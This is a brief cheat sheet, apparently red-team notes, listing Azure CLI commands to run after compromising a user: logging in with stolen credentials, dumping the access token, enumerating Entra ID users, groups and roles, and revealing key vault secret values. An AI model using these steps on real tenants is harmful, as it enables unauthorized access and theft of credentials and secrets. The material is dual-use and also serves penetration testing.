 # Azure CLI Authenticated Enumeration

## Any operation running with azure-cli, is assumed that we have already compromised a user and have access inside the Azure environment.

### Commands:

#### 1) Authenticate with our compromised account 

    az login -u USER@DOMAIN.CORP -p 'PASSWORD'

#### 2) Logout from our current user

    az account clear 

 - az resource list (Shows all resources that our current user has access to)

 - az vm show --resource-group GROUP --name VM_NAME (Return general information about a VM)

 - az account get-access-token (Gives the access token of the account.)

 - az ad user list (Enumerate EntraID users within the tenant)

 - az ad user list --filter "startsWith('wvusr-', displayName)" (Do a filtered enumeration depending on use case)

 - az ad group list (Enumerate EntraID groups)

 - az ad group member list --group "GROUP_NAME" (Enumerate members of a specific group)

 - az role assignment list --assignee GROUP_ID --all (Check what role is assigned to a specific group.)

 - az keyvault list (List any accessible key vaults)

 - az keyvault secret list --vault-name VAULT_NAME (Check if secrets are stored inside this vault)

 - az keyvault secret show --vault-name VAULT_NAME --name SECRET_NAME (Reveal the values inside the secret within the specific vault)
